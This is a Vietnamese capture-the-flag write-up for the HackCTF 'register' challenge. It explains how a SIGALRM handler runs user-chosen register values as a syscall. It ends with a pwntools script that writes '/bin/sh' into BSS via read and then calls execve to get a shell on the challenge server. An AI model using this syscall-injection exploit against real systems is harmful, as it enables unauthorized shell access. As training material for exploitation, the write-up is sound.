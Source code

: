 # Register
### Cre: Pyo Tutor

Hàm main sẽ setup Alarm(5) trước thi thực hiện function chính là Build() để thực thi.

![Đây là hàm Main](https://github.com/zirami/HackCTF/blob/main/register/image/main_func.png)


Tại hàm build(), signal sẽ được kích hoạt và gọi hàm handler để thực thi các tham số đã truyền trong obj.
Sau đó thực hiện 2 vòng while và Do while, nhận các tham số cho register.

![Đây là hàm build](https://github.com/zirami/HackCTF/blob/main/register/image/build%20func.png)
![Đây là hàm handler](https://github.com/zirami/HackCTF/blob/main/register/image/handler_func.png)


Trong hàm Do While có hàm validate_syscall_obj() để check điều kiện, với tham số đầu vào rơi vào RAX register.

![Đây là hàm Validate_syscal_obj](https://github.com/zirami/HackCTF/blob/main/register/image/validate_syscall_obj_func.png)

Chương trình sử dụng signal(14, handler); kèm theo alarm(5-seconds).
Sau đó, nhận các input cho các register của chương trình.
Vậy chỉ cần truyền các tham số hợp lí, thì có thể gọi shell.

# Solution

Có 2 công việc cần làm để gọi shell
* Tạo 1 nơi chứa chuỗi `/bin/sh`
* Truyền tham số cho RDI = addr("/bin/sh"), RAX = 59,... Đợi 5s.

## Getshell



## File Exploit
```py
from pwn import * 
# s = process("./register")
s = remote('ctf.j0n9hyun.xyz', 3026)
# raw_input("debug")

binsh = "/bin/sh\x00"
#BSS_ADDR = 0x601100 = 6295808 
s.sendlineafter("RAX: ","0")
s.sendlineafter("RDI: ","0")
s.sendlineafter("RSI: ","6295808")
s.sendlineafter("RDX: ","8")
s.sendlineafter("RCX: ","0")
s.sendlineafter("R8: ","0")
s.sendlineafter("R9: ","0")

s.send(binsh)


s.sendlineafter("RAX: ","59")
s.sendlineafter("RDI: ","6295808")
s.sendlineafter("RSI: ","0")
s.sendlineafter("RDX: ","0")
s.sendlineafter("RCX: ","0")
s.sendlineafter("R8: ","0")
s.sendlineafter("R9: ","0")

sleep(4)

s.interactive()
```
